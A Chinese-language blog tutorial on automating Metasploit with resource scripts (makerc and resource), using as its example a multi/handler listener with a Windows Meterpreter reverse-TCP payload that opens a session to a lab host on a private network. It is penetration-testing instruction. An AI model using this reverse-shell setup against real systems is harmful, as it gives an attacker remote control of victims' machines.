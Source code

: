 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit资源脚本的使用方法
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Metasploit资源脚本的使用方法
lock: need
---
```


# Metasploit资源脚本的使用方法

Metasploit可以通过资源脚本实现自动化——使用资源脚本可以免去手动设置选项，实现选项的自动化设置，从而节省配置模块选项和攻击载荷所花费的时间。

创建资源脚本有两种方法：手动创建脚本或使用makerc命令创建脚本。makerc命令将之前输入过的所有命令都保存到一个文件中，可以使用resource命令使用这个文件。

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.175.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:4444 -> 192.168.175.130:1025) at 2019-01-25 23:27:58 +0800

meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.175.130 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/handler) > makerc
Usage: makerc <output rc file>

Save the commands executed since startup to the specified file.

msf5 exploit(multi/handler) > makerc multi_handler
[*] Saving last 8 commands to multi_handler ...
msf5 exploit(multi/handler) > 
```

这里，我们通过设置攻击载荷和各种选项，成功启动了一个渗透模块handler，输入makerc命令就可以将这些命令保存到一个指定的文件中。在这个示例中是multi_handler文件，我们保存了最近使用的8条命令。

接下来，我们就要通过resource命令使用这个资源文件，达到选项的自动化设置，如下所示：

```
msf5 exploit(multi/handler) > resource multi_handler 
[*] Processing /root/multi_handler for ERB directives.
resource (/root/multi_handler)> use exploit/multi/handler
resource (/root/multi_handler)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (/root/multi_handler)> set LHOST 192.168.175.128
LHOST => 192.168.175.128
resource (/root/multi_handler)> set LPORT 4444
LPORT => 4444
resource (/root/multi_handler)> show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.175.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


resource (/root/multi_handler)> exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)